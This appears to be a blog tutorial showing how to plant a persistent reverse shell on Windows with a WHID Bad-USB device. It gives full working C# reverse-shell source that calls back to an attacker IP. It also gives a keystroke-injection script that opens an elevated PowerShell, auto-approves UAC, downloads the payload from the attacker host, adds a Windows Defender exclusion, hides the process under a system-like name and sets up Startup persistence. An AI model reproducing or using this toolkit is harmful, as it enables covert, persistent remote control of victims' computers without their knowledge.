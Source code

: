 ```yaml
---
permalink: /portfolio/whid/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Hacking with WHID
---
```


## Persistent reverse shell

A reverse shell is great, but what if he stayed, no matter what? Using a Bad-USB of any kind, you can inject a payload to create a persistent reverse shell.

### The shell

First, we need our shell. This will be an executable written in `dotnet core 3.1` ([source](https://www.puckiestyle.nl/c-simple-reverse-shell/)):

```C#
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;
using System.Threading;

namespace Shell1
{
    class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            while (true)// keep going
            {
                try
                {
                    connect();
                }
                catch { }

                Thread.Sleep(60000); //wait a minute before reconnecting
            }
        }

        private static void connect()
        {
            using(TcpClient client = new TcpClient("192.168.241.1", 8090)) //connect to attacker
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe"; //use cmd, so it becauses a shell
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);// show the output
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch { }
            }
        }
    }
}
```

This code creates a reverse shell to the gives IP address, which is restarted every minute after closing. But this program has to be started by a user after every reboot. And the users won't just trust every program, so we need something to get the executable on the victim's system without their knowledge. Here the Bad-USB comes into play. For this example I used my WHID-Cactus, but it can be rewritten and used on any Bad-USB. I only changed the contents of the main method, so that the shell would reconnect after a minute.

```whid
Press:131+114
Print:powershell
Press:128+129+176
Press:216+176
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe") //TODO MY ip
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
exit
```

This little piece of code will make the perfect shell. Let's look at it line by line.

```whid
Press:131+114
```

This simulates a key-press by using Arduino keyboard-codes. `131` is the Windows-key and `114` is the letter 'r'. This will open the `Run` box on windows, allowing you to start an executable.

```whid
Print:powershell
```

This just types powershell into the `Run` box without an `enter` key pressed.

```whid
Press:128+129+176
Press:216+176
```

The first line uses the Arduino codes again to press `control`, `shift` and `enter`. This will run the given command (`powershell`) as administrator, we need this to disable Windows Defender. The second line will type the left arrow and `enter`, so that the UAC (admin-prompt) is answered with `yes`.

```powershell
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
```

This is where the juicy stuff starts, first we download the `shell.exe` and a `vb` script called `invis.vbs`.

```vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

Why do we need this? This little script runs an executable completely hidden. Only far into taskmanager can you find the process, but nobody expects a process called `wincore` to be evil.

Both files are downloaded into `C:\users\{user}\AppData\Local\Microsoft\Windows\0\`, a folder very little people dare to even open, this is just another step to make the shell look like a windows process to "normal" people.

```powershell
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
```

This line is the reason that powershell must start with privileges, this line makes a exclusion in Defender for all the processes named `wincore.exe`. This allows the shell to run without any interjection from Windows Defender.

```powershell
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
```

And lastly, we create a shortcut in `C:\users\{user}\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`. Everything executable or shortcut in this folder is run after the user logs in. This way we can start our shell every time the system boots. This does not run the shell yet, however if you want to run it immediately, you can just add this line to the script:

```powershell
PrinteLine:C:\Windows\System32\wscript.exe "C:\Users\admin\AppData\Roaming\..\Local\Microsoft\Windows\0\start.vbs" "C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe"
```

This is simply the content of the shortcut.

We end the script with `exit`, so the user does not see that something is up. Currently, the script consists of multiple lines executed in powershell, but if it is rewritten to one powershell command that runs in the background, this injection can take only a few seconds to be ready. The execution then happens on the background, even when the usb is pulled out.

